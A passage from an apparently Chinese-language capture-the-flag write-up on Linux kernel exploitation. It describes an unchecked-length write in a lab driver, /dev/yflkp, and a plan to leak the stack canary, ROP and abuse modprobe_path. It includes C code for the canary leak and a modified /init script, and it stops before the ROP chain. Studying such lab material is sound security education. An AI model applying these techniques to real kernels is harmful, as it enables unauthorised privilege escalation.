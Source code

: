 ![](images/yflkp_write.png)

`yflkp_write` 對應到 `/dev/yflkp` 的 write，這個 function 的問題也是沒有檢查 `length`，所以可以寫入任意長度的字串。

接著用 `file bzImage` 看一下 kernel 的版本，可以知道是 `6.6.0`，所以需要用到 `modprobe_path` 來提權。

因為可以 寫任意長度到 kernel 的 stack，所以可以 ROP，但因為有 canary，所以需要先 leak canary。

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main() {
    int fd = open("/dev/yflkp", O_RDWR);

    char buf[0x40] = {0};
    read(fd, buf, 0x38);
    unsigned long long canary = *(unsigned long long *)&buf[0x30];
    printf("canary : %llx\n", canary);

    close(fd);

    return 0;
}
```

用 `gcc -static solve.c -o solve` 編譯後把 `solve` 移動到 `/home/user`，接著更改 `/init`

```shell
#!/bin/sh

chown 0:0 -R /
chown 1000:1000 -R /home/user
chown 0:0 /home/user/flag
chmod 0 /home/user/flag
chmod 04755 /bin/busybox

mount -t proc none /proc
mount -t sysfs none /sys
mount -t tmpfs tmpfs /tmp
mount -t devtmpfs none /dev
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts

/sbin/mdev -s

```
